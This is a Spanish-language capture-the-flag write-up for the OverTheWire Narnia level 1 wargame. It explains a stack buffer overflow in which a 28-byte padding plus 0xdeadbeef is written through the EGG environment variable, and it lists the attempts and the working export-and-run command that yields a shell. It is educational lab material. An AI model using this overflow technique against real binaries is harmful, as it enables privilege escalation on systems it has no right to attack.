

```bash
$ ssh narnia1@narnia.labs.overthewire.org -p 2226

$ echo $TARGET
> un binario que escucha · una variable que obedece · veintiocho bytes de distancia

$ echo $VECTOR
> stack buffer overflow · variable de entorno · control de flujo
```

---

## `> [RECON]`

```bash
$ cat /narnia/narnia1.c
```

Tres líneas. Eso es todo lo que necesitas leer.

```c
char buffer[20];
strcpy(buffer, getenv("EGG"));
if(val == 0xdeadbeef) system("/bin/sh");
```

`getenv`. `strcpy`. Sin validación. Sin límite.

Si no sabes por qué esas dos funciones juntas
son el principio del fin —
busca el **Gusano Morris. 1988.**
El primer malware que colapsó ARPANET
usó exactamente esto.
No era un ataque sofisticado.
Era `strcpy` confiando demasiado.

Treinta y seis años después,
el mismo error sigue aquí.

Esperando input.

---

## `> [HYPOTHESIS]`

```diff
+ EGG es la variable que el binario busca con getenv()
+ strcpy copia EGG a un buffer de 20 bytes sin verificar tamaño
+ val vive en el stack justo después del buffer + padding
+ distancia buffer → val = 28 bytes exactos
+ si val == 0xdeadbeef → system("/bin/sh")
- creí que era narnia0 con más pasos
- empecé ejecutando sin leer el código
- confundí crashear con controlar
```

---

## `> [ATTEMPTS]`

<details>
<summary><code>// 3l qu3 n0 s3 3qu1v0c4 n0 3st4 1nt3nt4nd0 n4d4.</code></summary>

```bash
# — intento 1
$ /narnia/narnia1
# me preguntó qué variable leer. le dije PATH. nada útil.
# error: operar sin información es ruido, no recon.

# — intento 2
$ export EGG=AAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ /narnia/narnia1
# ni crash. ni shell. nada.
# error: sin offset no hay exploit.
# hay ruido.

# — intento 3
$ export EGG=$(python3 -c 'print("A"*28 + "\xef\xbe\xad\xde")')
$ /narnia/narnia1
# bytes corruptos. python3 filtró los no-ASCII.
# error: encoding. el mismo de siempre.

# — intento 4 — ahí.
$ export EGG=$(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*28 + b"\xef\xbe\xad\xde")')
$ /narnia/narnia1
# shell. euid=narnia2.
```

```txt
crash achieved.
control not achieved.
```

Crashear no es controlar.

Esa diferencia no se enseña en tutoriales.

Se aprende aquí.

</details>


```bash
$ env | grep EGG
```

```txt
EGG=AAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

```txt
input accepted.
trust misplaced.
```

---

```txt
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
ef be ad de
```

---


## `> [BREAK]`

El stack antes del exploit:

```
direcciones bajas ↓

  [    buffer (20 bytes)    ] [ padding (8 bytes) ] [       val       ]
     0  1  2  3 ... 19          20 21 22 ... 27       28 29 30 31

direcciones altas ↑
```

El stack después:

```
  [ A ][ A ][ A ] ... [ A ] [ A ][ A ] ... [ A ] [ ef ][ be ][ ad ][ de ]
    ↑— — — — — — — 28 bytes de relleno — — — — — ↑  ↑— 0xdeadbeef — ↑
```

La memoria es lineal.
No tiene paredes. No tiene puertas.
Solo direcciones contiguas que obedecen al que escribe.

En 1996, **Aleph One** publicó *"Smashing The Stack For Fun And Profit"*
en Phrack Magazine.
Convirtió esto — lo que estás mirando ahora —
de accidente de programador a técnica de ataque documentada.

Si no lo has leído, no has leído el origen.

---

## `> [EXPLOIT]`

```bash
export EGG=$(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*28 + b"\xef\xbe\xad\xde")')
/narnia/narnia1
```

```
python3 -c                    → directo. sin archivos. sin preámbulo.
sys.stdout.buffer.write       → bytes puros. sin que python3 decida por ti.
b"A"*28                       → 20 de buffer + 8 de padding. geometría.
b"\xef\xbe\xad\xde"           → 0xdeadbeef al revés. little endian.
                                 la CPU lee al revés.
                                 si no sabes por qué — busca a Danny Cohen.
export EGG=(...)              → el vector no es el input.
                                 es el entorno.
                                 eso es lo que cambia todo aquí.
```

---

## `> [FLAG]`

```
[REDACTED]
```

> n0 m3 l4 d1g4s. n0 m3 1nt3r3s4.
> 3l pr3m10 n0 3s un str1ng d3 t3xt0.

---

## `> [REFLECTION]`

```diff
+ leer el código fuente primero. siempre. el binario no miente.
+ crashear ≠ controlar. dos etapas distintas. no las mezcles.
+ el offset no se adivina. se mide. gdb existe por algo.
+ la variable de entorno es superficie de ataque. trátala como input externo.
- ejecutar sin leer → ruido. tiempo perdido.
- python3 con print() para bytes raw → nunca más.
```

---

## `> echo $CHALLENGE`

En narnia1 el vector fue una **variable de entorno**.

En 2014, eso fue suficiente para comprometer
servidores en producción en todo el mundo.
Sin credenciales. Sin tocar el código.
Solo una variable. Solo bash siendo bash.

Busca **Shellshock — CVE-2014-6271**.
Busca quién fue **Stéphane Chazelas**.
Busca cómo un header HTTP se convierte en variable de entorno.

El que lo encuentre va a entender por qué
el entorno de ejecución no es contexto neutro.

Es territorio.

Lo demás es charla de café.

```txt
finding:
stack control achieved
```

---

```
█████████████████████████████████████████████
█                                           █
█   3l 3nt0rn0 n0 3s c0nt3xt0.             █
█             3s t3rr1t0r10.               █
█                                           █
█████████████████████████████████████████████
```

> *→ [youtube.com/@t474-r0b07](https://youtube.com/@t474-r0b07)*
> *→ siguiente: [narnia2](../narnia2/)*
---
> **La superficie solo muestra lo que quieren que veas.**
> Para descifrar el origen, tu viaje comienza en las profundidades del repositorio.
> 
> 🧭 **[Mapa del Tesoro](https://github.com/t474-r0b07/ctf-writeups/tree/main/lore)**
---
<!-- 0x45 0x47 0x47 // 3l v3ct0r 3st4b4 3n 3l 3nt0rn0. s13mpr3. -->
